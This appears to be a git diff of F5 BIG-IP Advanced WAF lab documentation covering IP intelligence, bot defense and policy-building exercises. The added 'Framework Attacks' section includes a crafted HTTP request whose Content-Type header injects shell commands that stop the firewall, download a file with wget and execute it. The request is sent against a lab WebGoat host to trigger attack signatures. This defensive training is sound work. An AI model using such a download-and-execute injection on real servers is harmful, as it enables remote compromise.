

update

diff --git a/docs/class3/module4 - xparent policy/lab1/lab1.rst b/docs/class3/module4 - xparent policy/lab1/lab1.rst
@@ -9,15 +9,14 @@ We created a transparent policy way back in Lab 1 to configure IPI and Geolocati
 - Review Learning & Blocking & Policy Building Process settings
 - Implement HTTP Protocol Compliancy checks and test
 - Test with a HTTP Protocol violation plus XSS attack
-- Enable Server Technologies https://clouddocs.f5.com/training/community/waf/html/class3/module3/lab3/lab3.html
-- Review Default Attack Signature Configuration. 
+- Enable Server Technologies & Attack Signatures
 - Review Reporting
+- Review Policy Building Process Settings and Whitelist
 
-
-Bonus- Review Login Page Protection and Brute Force Configuration protection. 
+**Bonus** - Review Login Page Protection and Brute Force Configuration protection. 
  
 
-- Estimated time for completion **45** **minutes**.
+- Estimated time for completion **30** **minutes**.
 
 Learning & Blocking & Policy Building
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
@@ -99,3 +98,98 @@ XSS in HOST Header
 
 #. Browse to **Security > Event Logs > Application > Requests** and review the alert for this Sev5 attack. Note the alert severity is much higher (5) for this attack type due to several violations occuring.
 #. Review all the details and then click the **3** under the **Attack Signature Detected** violation to see all of the XSS Attack Signatures that were triggered. 
+
+Server Technologies & Attack Signatures
+~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+
+In this exercise we will examine server technologies which allow you to automatically discover server-side frameworks, web servers and operating systems. This feature helps when the backend technologies are not well known. The feature can be enabled to auto detect. You can also add the technologies that you know. Creating custom signature sets allows you to define what signature groupings work best for your needs. In this exercise we will explore both.
+
+#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures**
+#. Review the Attack Signatures that were applied during policy creation from back in Lab 1. Notice that they are set to **Learn/Alarm/Block and Staging is enabled**. 
+#. Locate Server Technologies and expand the option. Click **Enable Server Technology Detection**.
+
+.. image:: images/st.png
+  :width: 600 px
+
+**Make sure to Save and Apply Policy.**
+
+.. Note:: Our policy is currently in manual and we will need to manaully accept all server technologies suggestions as they are learned to build the server technology signature sets. If the policy were in automatic learning server technologies would automatically be accepted once the threshold was met.
+
+#. On Client01 load the bookmark for **Webgoat** and Login. **Remain logged in for the duration of the lab.**
+#. On BIG-IP  Go to **Security > Application Security > Policy Building > Traffic Learning** and notice the three new 100% alerts for Server Technologies. 
+#. Select all three suggestions and click **Accept**. 
+
+**Make sure to Apply Policy**
+
+.. image:: images/st_learning.png
+  :width: 600 px
+
+#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** and notice the the Server Technology signature sets that were added to the policy when you accepted the learning sugestions. 
+#. Click **Change** and select the Unix/Linux Signature sets at the bottom and click **Change**, then click **Save** and **Apply Policy**
+
+.. image:: images/unix.png
+  :width: 600 px
+
+Framework Attacks
+~~~~~~~~~~~~~~~~~~~
+
+Back in BURP navigate to the repeater tab and adjust the payload to the following and hit go. **Use the password provided by the instructor**
+
+|
+
+Framework Attack
+
+::
+
+  POST https://10.1.10.145/WebGoat/login HTTP/1.1
+  User-Agent: ImperialProbeDroid
+  Pragma: no-cache
+  Cache-Control: no-cache
+  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
+  Content-Length: 38
+  Host: DarthMaul
+
+  username=f5student&password=password
+
+
+#. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Sev5 Event. Also note the plethora of Sev3 Alerts for the **/Webgoat/service/lessonoverview.mvc and lessonmenu.mvc**. These are false positives that we will deal with momentarily. 
+#. Click on the Sev5 **/WebGoat/login** alert, click on the number **2** under Attack Signature Detected - Occurrences.  Next click on the little blue “i” next to the signature for more information.
+
+.. image:: images/alerts.png
+  :width: 600 px
+
+We are now alerting on attacks aimed at Server Technologies. 
+
+Clear the False positives
+~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+
+#. Select the Sev3 Alert for the **/Webgoat/service/lessonoverview.mvc** and **Accept** the alert. These alerts are due to the fact that we are still using an IP address for a hostname and we have enabled the HTTP Protocol Compliance check for this. Accessing a site by IP is sometimes a reality in app development although not best practice. 
+#. Browse to **Security > Event Logs > Application > Requests** and notice now the requests are no longer triggering the alert. 
+
+.. image:: images/cleared.png
+  :width: 600 px
+
+Review Reporting
+~~~~~~~~~~~~~~~~~~
+#. Navigate to **Security > Reporting > Application > Charts** and review all of types of reports you can generate and export. 
+
+IMAGE
+
+Bonus
+~~~~~~~~~~
+Protecting a login page is a very important role for a WAF. While brute force attacks are on the decline, Credential Stuffing attacks have increased several times over in the past 5 years. 
+#. Navigate to **Security > Application Security > Sessions and Logins > Login Pages List**
+#. Configure the Login Page as show below and click **Create** and **Apply Polilcy**.
+
+.. image:: images/login.png
+  :width: 600 px
+
+#. Navigate to **Security > Application Security > Brute Force Attack Prevention** and click **Create**. 
+#. Review all of the configuration options available for protecting a Login Page from Brute Force and Credential Stuffing Attacks. 
+
+.. NOTE:: The security policy's enforcement mode is Transparent. Requests will not be blocked unless the enforcement mode is changed to Blocking on the Learning and Blocking Settings screen
+
+**This completes Lab 4**
+
+
+

diff --git a/docs/class3/module1 - ipi and geo/lab1 - ipi/lab1.rst b/docs/class3/module1 - ipi and geo/lab1 - ipi/lab1.rst
@@ -24,7 +24,7 @@ Objective
 Create Your 1st L3 IPI Policy
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 An IPI policy can be created and applied globally, at the virtual server (VS) level or within the WAF policy itself. 
-Often, questions arise around what is the best way to implement. As always, the answer is; it depends. Implementing globally or at the VS level will provide the best 
+Often, questions arise around what is the best way to implement. As always, the answer is; **it depends**. Implementing globally or at the VS level will provide the best 
 performance and uses a separate log file for violations. This also keeps the actual WAF logs clean. When managing global or VS specific policy your security admins may not have this level of access to the BIG-IP. 
 A WAF admin assigned Application Security Administrator rights on a BIG-IP can only modify WAF policies and can not see or make changes to the VS itself or the global IPI settings. This means the IPI policy would need to be managed inside of the WAF policy. 
 When implementing within the WAF policy the blocking happens at layer 7 rather than layer 3 and any IPI violations will be in the WAF event logs with all the other alerts. By inspecting at Layer 7 we have the additional capability to scrutinize the XFF header.  
@@ -84,7 +84,7 @@ Apply Global IPI & Test
 
 .. NOTE:: The script should continue to run for the remainder of Lab 1 & 2. Do NOT stop the script. 
 
-#. Navigate to **Security > Event Logs > Network > Ip Intelligence** and review the entries. Notice the Geolocation Data as well as the malicious categorization to the far left of the log screen. 
+#. Navigate to **Security > Event Logs > Network > Ip Intelligence** and review the entries. Notice the Geolocation Data as well as the Black List Class to the right of the log screen. 
 
 .. image:: images/global_event.png
   :width: 600 px
@@ -109,6 +109,7 @@ Create VS Specific L3 IPI Policy
 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 #. Navigate to  **Security > Network Firewall > IP Intelligence > Policies** and click **create**. 
 #. Name: **webgoat_ipi**
+#. For Default Log Action choose **yes** to log category matches. 
 #. Under Categories click **Add** and choose the **my_bad_ips** custom category. 
 #. Click **Done Editing** and **Commit the Changes To System**.
 
@@ -181,7 +182,7 @@ Create your first WAF Policy & Configure L7 IPI
   :width: 600 px
 
 
-#. Navigate to **Security > Event Logs > Application > Requests** and review the entries. You should now see IPI violations. If you browse to the site via Firefox you should see good traffic as well in the event logs since we are logging all requests and not all IP's are malicious. 
+#. Navigate to **Security > Event Logs > Application > Requests** and review the entries. You should now see IPI violations. If you browse to the site via Firefox on CLient01 you should see good traffic as well in the event logs since we are logging all requests and not all IP's are malicious. 
 
 .. image:: images/events.png
   :width: 600 px

diff --git a/docs/class3/module2 - bot/lab1 - bot/lab1.rst b/docs/class3/module2 - bot/lab1 - bot/lab1.rst
@@ -52,7 +52,7 @@ Whitelisting a Bot
 ~~~~~~~~~~~~~~~~~~~~~~
 
 #. Navigate to **Security > Bot Defense > Bot Defense Profiles > insecureApp1_botprofile > Bot Mitigation Settings**
-#. Under **Mitigation Settings** change Unknown Bots to **Rate Limit** with a setting of **1** TPS. **1** is a very agressive rate-limit and used for demo purposes in this lab. You will need to set this to a value that makes sense for your environment to ensure the logs do not become overwhelming.
+#. Under **Mitigation Settings** change Unknown Bots to **Rate Limit** with a setting of **1** TPS. **1** is a very aggressive rate-limit and used for demo purposes in this lab. You will need to set this to a value that makes sense for your environment to ensure the logs do not become overwhelming.
 #. Under **Mitigation Settings Exceptions** click **Add Exceptions** and search for **curl** and click **Add**.
 #. Change the Mitigation Setting to **None** and then **Save** the profile. 
 
@@ -79,8 +79,17 @@ Testing additional User Agents
   :width: 600 px
 
 #. These are all intentionally poorly spoofed User-Agents and implementing just bot signatures is the bare minimum for bot mitigation and not a comprehensive security strategy. Some requests will get detected as anomolies such as the spoofed Safari UA but others will still cruise right through if they don't match existing signatures. Since we are not blocking the **unknown** category, we can at least rate limit them. Consider blocking or rate-limiting **unknowns** in production. A **Balanced** Bot profile will also include active JS challenges which will greatly enhance bot mitigation capabilities. Check out ASM241 for more information.  
+#. Navigate to **Security > Event Logs > Bot Defense > Bot Requests** and review the event logs. 
+#. All the **Unknown** bots are getting rate-limited. 
 
 .. image:: images/ua-spoof-log.png
   :width: 600 px
+
+#. Navigate to **Security  > Event Logs > Bot Defense >Bot Traffic** and review the dashboard. 
+
+.. image:: images/report.png
+  :width: 600 px
+
+
 
 **This completes Lab 2**

diff --git a/docs/class3/labinfo/labinfo.rst b/docs/class3/labinfo/labinfo.rst
@@ -10,15 +10,8 @@ Environment
 
 **Web Attack Tools used in this lab:**
 
- * `OWASP ZAP <https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project>`_ - DAST
  * `BURP Community Edition <https://portswigger.net/burp/>`_ - Packet Crafting
-
-**Api Tools:**
-
- * `Ansible <https://www.ansible.com/>`_ - Automation platform
- * `curl <https://curl.haxx.se/>`_ - command line webclient, will be used to interact with the iControl Rest API
- * `Postman <https://www.getpostman.com/>`_ - Graphical based Restful Client, will be used to interact with the iControl Rest API
- * `python <https://www.python.org/>`_ - general programming language used to interact with the iControl Rest API
+ * `curl <https://curl.haxx.se/>`_ - command line webclient. Very useful for debugging and Request Crafting
 
 **Linux server (server01):**
 
@@ -33,7 +26,7 @@ The network topology implemented for this lab is very simple. The following
 components have been included in your lab environment:
 
 -  1 x Ubuntu Linux 18.04 client
--  1 x F5 BIG-IP VE (v15.1.0.1) running Advanced WAF, Ip Intelligence & Threat Campaigns 
+-  1 x F5 BIG-IP VE (v15.1.0.1) running Advanced WAF with Ip Intelligence & Threat Campaigns Subscription Services.  
 -  1 x Ubuntu Linux 18.04 server
 
 The following table lists VLANS, IP Addresses and Credentials for all

diff --git a/docs/class3/module1 - ipi and geo/module1.rst b/docs/class3/module1 - ipi and geo/module1.rst
@@ -1,6 +1,6 @@
 Module 1: IPI & Geolocation Labs
 ===================================================
-Estimated time for completion: **35 minutes.**
+Estimated time for completion: **30 minutes.**
 
 
 .. toctree::

diff --git a/docs/class3/module2 - bot/module2.rst b/docs/class3/module2 - bot/module2.rst
@@ -1,6 +1,6 @@
 Module 2: Bot Detection Lab
 ===================================================
-Expected time to complete: **30 minutes**
+Expected time to complete: **20 minutes**
 
 .. toctree::
    :maxdepth: 1

diff --git a/docs/class3/module3 - tc/module3.rst b/docs/class3/module3 - tc/module3.rst
@@ -1,6 +1,6 @@
 Module 3: Threat Campaigns
 ===================================================
-Expected time to complete: **45 minutes**
+Expected time to complete: **20 minutes**
 
 .. toctree::
    :maxdepth: 1

diff --git a/docs/class3/module4 - xparent policy/module4.rst b/docs/class3/module4 - xparent policy/module4.rst
@@ -1,7 +1,7 @@
 Module 4: Transparent WAF Policy
 ===================================================
 
-Expected time to complete: 20 minutes
+Expected time to complete: 30 minutes
 
 .. toctree::
    :maxdepth: 1
